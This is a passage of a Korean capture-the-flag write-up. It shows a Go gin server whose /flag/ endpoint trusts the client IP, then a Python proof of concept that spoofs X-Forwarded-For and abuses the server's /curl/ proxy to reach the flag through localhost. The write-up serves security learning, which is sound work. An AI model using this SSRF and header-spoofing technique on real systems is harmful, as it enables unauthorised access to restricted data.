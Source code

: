 ```go
			return
		}
		statusText := resp.Status

		c.JSON(http.StatusOK, gin.H{
			"body":   string(bodyText),
			"status": statusText,
		})
	})

	r.GET("/flag/", func(c *gin.Context) {
		reqIP := strings.Split(c.Request.RemoteAddr, ":")[0]
		log.Println("[+] RemoteAddr : " + c.Request.RemoteAddr)
		log.Println("[+] IP : " + reqIP)
		if reqIP == "127.0.0.1" {
			c.JSON(http.StatusOK, gin.H{
				"message": flag,
			})
			return
		}

		c.JSON(http.StatusBadRequest, gin.H{
			"message": "You are a Guest, This is only for Host",
		})
	})

	r.Run()
}
```
{: file="main.go"}
<br/>

[gin](https://pkg.go.dev/github.com/gin-gonic/gin#Context.ClientIP)의 공식 문서를 보면 `X-ForWarded-For` 또는 `X-Real-Ip` 헤더를 통해서 `clientIP`를 조작할 수 있습니다.  
![gin](../../../assets/img/2023-03-26/gin.png){: w="800" h="400" }  
<br/>

## PoC Code
***
처음 시도했을 때 포트번호까지 주니 안돼서 로컬에서 빌드해서 확인한 결과 포트번호는 주면 안되는 것이었습니다ㅎ.  
```python
from requests import get
from re import search

info = lambda x : print(f"[+] {x}")

URL ="http://34.146.230.233:11000"
FLAG =""

res = get(f"{URL}/curl/?url=http://localhost:8080/flag/&header_key=&header_value=", headers={"X-Forwarded-For":"127.0.0.1"})
m = search(r"LINECTF{.*?}",res.text)

if m :
    FLAG = m.group()
    info(f"Flag is {FLAG}")
else :
    print("[-] Failed to find the flag")
```
{: file="exploit.py"}
<br/>
